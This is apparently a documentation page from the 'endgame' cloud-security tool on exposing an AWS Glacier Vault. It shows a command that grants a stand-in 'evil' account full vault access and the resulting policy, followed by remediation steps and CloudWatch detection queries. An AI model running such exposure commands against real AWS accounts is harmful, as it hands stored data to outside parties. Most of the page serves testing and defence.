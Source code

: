 # Glacier Vault

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service glacier --name test-resource-exposure
```

* To view the contents of the Glacier Vault Access Policy, run the following:

```bash
export VICTIM_ACCOUNT_ID=111122223333

aws glacier get-vault-access-policy \
    --account-id $VICTIM_ACCOUNT_ID \
    --vault-name test-resource-exposure
```

* Observe that the output of the overly permissive Glacier Vault Access Policies resembles the example shown below.


## Example

Observe that the policy below allows the evil principal (`arn:aws:iam::999988887777:user/evil`) the `glacier:*` permissions to the Glacier Vault named `test-resource-exposure`.

```json
{
    "policy": {
        "Policy": "{\"Version\":\"2012-10-17\",\"Statement\":[{\"Sid\":\"AllowCurrentAccount\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::111122223333:root\"},\"Action\":\"glacier:*\",\"Resource\":\"arn:aws:glacier:us-east-1:111122223333:vaults/test-resource-exposure\"},{\"Sid\":\"Endgame\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::999988887777:user/evil\"},\"Action\":\"glacier:*\",\"Resource\":\"arn:aws:glacier:us-east-1:111122223333:vaults/test-resource-exposure\"}]}"
    }
}
```

## Exploitation

```
TODO
```

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Trusted Accounts Only**: Ensure that Glacier Vaults are only shared with trusted accounts, and that the trusted accounts truly need access to the Vaults.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your Vaults**: Tightly control access to the following IAM actions:
  - [glacier:GetVaultAccessPolicy](https://docs.aws.amazon.com/amazonglacier/latest/dev/api-GetVaultAccessPolicy.html): _Retrieves the access-policy subresource set on the vault_
  - [glacier:ListVaults](https://docs.aws.amazon.com/amazonglacier/latest/dev/api-vaults-get.html): _Lists all vaults_
  - [glacier:SetVaultAccessPolicy](https://docs.aws.amazon.com/amazonglacier/latest/dev/api-SetVaultAccessPolicy.html): _Configures an access policy for a vault and will overwrite an existing policy._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='glacier.amazonaws.com' and eventName='SetVaultAccessPolicy'
```

The following query detects policy modifications which include the default IOC string:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='glacier.amazonaws.com' and (eventName='SetVaultAccessPolicy' and requestParameters.policy.policy like 'Endgame')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [set-vault-access-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/glacier/set-vault-access-policy.html)
* [get-vault-access-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/glacier/get-vault-access-policy.html)
